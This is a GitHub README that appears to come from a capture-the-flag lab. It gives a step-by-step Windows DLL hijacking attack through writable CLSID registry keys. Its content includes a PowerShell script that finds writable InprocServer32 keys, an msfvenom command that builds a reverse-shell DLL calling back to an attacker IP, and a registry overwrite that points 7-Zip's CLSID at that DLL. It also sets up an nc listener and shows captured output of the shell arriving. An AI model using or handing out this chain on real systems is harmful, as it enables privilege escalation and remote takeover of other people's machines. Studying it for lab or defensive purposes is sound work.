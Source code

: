 # windows-dll-hijack-clsid
Powershell script to find writable CLSIDs and then DLL Hijacking it

* ### Steps:
1) Let's first create a powershell script to find vulnerable CLSID keys, we'll call it as `find_writable_clsid.ps1`: 
```powershell
# Let's obtain all the actual user's groups first by their name, not SID:
$myIdentity = [System.Security.Principal.WindowsIdentity]::GetCurrent()
$myGroups = $myIdentity.Groups | ForEach-Object {
    try {
        $_.Translate([System.Security.Principal.NTAccount]).Value
    } catch {
        $_.Value
    }
}
$myGroups += $myIdentity.Name  # Add the user directly

# Let's iterate all CLSID keys:
$base = "HKLM:\Software\Classes\CLSID"
$clsids = Get-ChildItem -Path $base -ErrorAction SilentlyContinue

foreach ($clsid in $clsids) {
    $inprocPath = Join-Path $clsid.PSPath "InprocServer32"
    
    if (Test-Path $inprocPath) {
        try {
            $acl = Get-Acl $inprocPath
            foreach ($access in $acl.Access) {
                $identity = $access.IdentityReference.Value
                $rights = $access.RegistryRights

                # Does the actual user or group have WRITE PERMISSIONS (W or RW)?:
                if ($myGroups -contains $identity -and $rights -match "SetValue|WriteKey|FullControl") {
                    Write-Host "[PWN] Writable CLSID found!"
                    Write-Host "      Key: $inprocPath"
                    Write-Host "      Who: $identity"
                    Write-Host "      Rights: $rights`n"
                }
            }
        } catch {
            continue
        }
    }
}
```

2) We execute it and we find one vulnerable CLSID key (in this case the actual user belongs to `RUSTYKEY\Support` group, so we have RW rights, we have FullControl over it to write it):
```powershell
PS C:\users\public> .\find_writable_clsid.ps1

[PWN] Writable CLSID found!
      Key: Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
      Who: RUSTYKEY\Support
      Rights: FullControl
```

3) Once you find a vulnerable CLSID key, it's time to check where it comes from, in this case it says this below -> `(default)      : C:\Program Files\7-Zip\7-zip.dll`:
```powershell
PS C:\Users\Public> Get-ItemProperty -Path "HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32"


(default)      : C:\Program Files\7-Zip\7-zip.dll
ThreadingModel : Apartment
PSPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{23170F69-40C1-278A-1000
                 -000100020000}\InprocServer32
PSParentPath   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{23170F69-40C1-278A-1000
                 -000100020000}
PSChildName    : InprocServer32
PSDrive        : HKLM
PSProvider     : Microsoft.PowerShell.Core\Registry
```

4) Now let's create our malicious DLL as `hijack.dll` in our attack machine (then send it to the target machine with the technique of your choice):
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.10 LPORT=4444 -f dll -o hijack.dll
```   
   
5) Now let's replace the default value to our malicious DLL (this time we are using this route to upload the file `C:\Users\Public`, but it may be different):
```powershell
PS C:\users\public> Set-ItemProperty -Path "HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" -Name "(default)" -Value "C:\Users\Public\hijack.dll"

# This won't show any output!!!
```

6)  Let's have our listener on in our attacking machine:
```bash
rlwrap nc -nlvp 4444
```

7) We can execute the malicious DLL with it: 
```powershell
PS C:\users\public> start-process explorer.exe
```

 You may also execute it in this case with the 7-zip file inside it's folder as we know this has the vulnerable CLSID key:
 ```powershell
 PS C:\program files\7-zip> .\7z.exe`
 ```
 
 8) We receive the shell in our attacking machine:
```bash
rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.100.159] 49980
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows> whoami
whoami
rustykey\mm.turner
PS C:\Windows> 
```


##### EXTRA: Here you can find a video to another DLL Hijacking technique using procmon.exe https://www.youtube.com/watch?v=XvxeUxOvKb0
